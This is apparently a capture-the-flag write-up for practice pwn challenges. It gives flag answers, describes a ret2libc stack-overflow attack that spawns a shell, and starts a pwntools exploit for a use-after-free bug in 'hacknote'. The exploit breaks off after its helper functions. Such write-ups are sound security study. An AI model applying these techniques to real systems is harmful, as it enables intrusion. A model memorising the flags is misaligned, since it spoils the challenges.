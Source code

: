 #### flag

```text
cyberpeace{36fa0557da2d5e2fd88548217774b973}
```

### 010 int_overflow

#### flag

```text
cyberpeace{67e0436f6b3f20c76c765823ccceef34}
```

### level3

read有栈溢出，通过ret进行ret2libc

通过read的栈溢出，两次进入main函数，第一次，ret到write_plt, 通过write泄漏libc地址。
第二次，ret到system, 执行system("/bin/sh")。

#### flag

```text
cyberpeace{f130879be25ed3eaa1da0b50b9fcda3d}
```

## Challenge area

### hacknote

UAF，del的时候，没有将指针清零。

#### exp

```python
#!/usr/bin/env python3
#! -*- coding : utf-8 -*-

import os, sys
from pwn import *

#context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

#target=['ld-2.23.so', './hacknote/hacknote']
target='./hacknote/hacknote'
use_gdb = False
elf  = ELF("./hacknote/hacknote")

note_idx = 0

def add_note(p, size, msg = None):
    p.sendafter("Your choice :", str(1))
    p.sendafter("Note size :", str(size))
    if msg:
        p.sendafter("Content :", msg)
    global note_idx
    log.info("add note {0}, size {1}".format(note_idx, size))
    note_idx += 1

def del_note(p, idx):
    p.sendafter("Your choice :", str(2))
    p.sendafter("Index :", str(idx))
    log.info("del note {0}".format(idx))

```